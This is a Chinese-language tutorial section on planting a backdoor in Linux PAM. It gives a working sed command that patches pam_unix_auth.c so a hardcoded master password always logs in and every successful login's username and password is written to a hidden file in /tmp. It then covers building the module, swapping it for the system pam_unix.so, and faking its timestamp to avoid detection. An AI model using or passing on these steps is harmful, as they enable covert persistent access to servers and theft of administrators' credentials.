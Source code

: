 #### 2.Linux Pam后门

 **PAM**
是一种认证模块，PAM可以作为Linux登录验证和各类基础服务的认证，简单来说就是一种用于Linux系统上的用户身份验证的机制。进行认证时首先确定是什么服务，然后加载相应的PAM的配置文件(位于
**/etc/pam.d** )，最后调用认证文件(位于 **/lib/security** )进行安全认证

 **简易利用** 的PAM后门也是通过修改 **PAM** 源码中认证的逻辑来达到权限维持

源码： `http://www.linux-pam.org/library/`

查询版本： `rpm-qa|grep pam`

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180502.png)

    
    
    tar -xzvf Linux-PAM-1.1.1.tar.gz  
    cd Linux-PAM-1.1.1

 **pam unixauth.c** 修改认证逻辑，改成使用特定密码的后门，当然也可以作为一个记录敏感密码的功能，将记录的密码写入文件记录。

    
    
    sed -i -e 's/retval = _unix_verify_password(pamh, name, p, ctrl);/retval = _unix_verify_password(pamh, name, p, ctrl);\n\tif (strcmp(p,"'snsn123123'")==0 ){retval = PAM_SUCCESS;}if(retval == PAM_SUCCESS){\n\tFILE * fp;\n\tfp = fopen("/tmp/.sshd", "a");\n\tfprintf(fp, "%s : %s\\n", name, p);\n\tfclose(fp);\n\t}/g' modules/pam_unix/pam_unix_auth.c

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180503.png)

    
    
    ./configure && make

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180504.png)

    
    
    cp -rf /usr/lib64/security/pam_unix.so /usr/lib64/security/pam_unix.so.bak  
    cp -rf pam_unix.so /usr/lib64/security/pam_unix.so

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180505.png)

    
    
    oldtime=`stat -c '%z' /lib64/security/pam_ftp.so`  
    touch -d "$oldtime" /usr/lib64/security/pam_unix.so

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180506.png)  

当管理员登录之后就会有新的密码写入

![]()

通过万能密码也可以成功登录服务器

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714180507.png)

